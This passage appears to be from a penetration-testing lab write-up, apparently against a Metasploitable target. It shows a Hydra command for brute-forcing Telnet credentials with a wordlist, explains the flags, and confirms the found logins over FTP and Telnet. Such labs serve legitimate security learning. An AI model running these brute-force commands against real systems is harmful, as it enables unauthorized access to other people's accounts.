 ![alt text](<Screenshot 2025-04-13 143855.png>)

Look for the correct login credential. You can identified by simply look at the symbol. Spot for [➕] sign. That indicate the login successful. To confirm it, let's try login.

        ftp <target IP>
![alt text](<Screenshot 2025-04-13 144131.png>)

## 🔐TELNET Brute Force (Hydra)
        hydra -l msfadmin -P /usr/share/wordlists/labwork.txt -vV <target_IP> telnet

- -l: login name
- -P: Path to a file containing a list of passwords
- -v: verbose mode
- -V: show login+pass for each attempt

![alt text](<Screenshot 2025-04-13 144619.png>)

Just like FTP, we will try to loginb the service to confirm to credential is valid. Similar to run FTP, just change FTP service to TELNET service.

        telnet <target IP>